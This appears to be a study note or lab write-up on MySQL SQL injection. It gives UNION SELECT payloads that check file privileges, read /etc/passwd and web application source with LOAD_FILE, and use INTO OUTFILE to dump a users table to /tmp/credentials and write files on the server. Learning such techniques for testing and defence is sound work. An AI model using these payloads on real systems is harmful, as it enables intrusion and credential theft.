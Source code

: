 **- Find out if we can READ/WRITE:**

You ll get this info with:

`UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`

Where `FILE` is the action that interest us in the event we are looking to manipulate files.

From there, we can find out if we can:

**READ FILES**

`UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`

***💡 We will only be able to read the file if the OS user running MySQL has enough privileges to read it.***


We can even read source code for the web app:

`UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`

and `ctrl + u` to view it as code.

**WRITE FILE**

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

- Check if `secure_file_priv` is NOT enabled:

`secure_file_priv` is used to determine where to read/write files from.

**An empty value** ⇒ Can read files from the entire file system

**Null** ⇒ we cannot read/write from any directory

**Enabled** ⇒ Limited to certain files ?


***💡 MariaDB has this variable set to empty by default if the user has the `FILE` privilege. However, `MySQL` uses `/var/lib/mysql-files` as the default folder.***

find out with the command:

`SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"`

- If we indeed have write access to the target, you can write using the following command:

`SELECT * from users INTO OUTFILE '/tmp/credentials';`

Then go see it with: `cat /tmp/credentials`

Write a file:

`SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';`

and go see it at `cat /tmp/test.txt';`

***💡 the `test.txt` file was created successfully and is owned by the `mysql` user.***
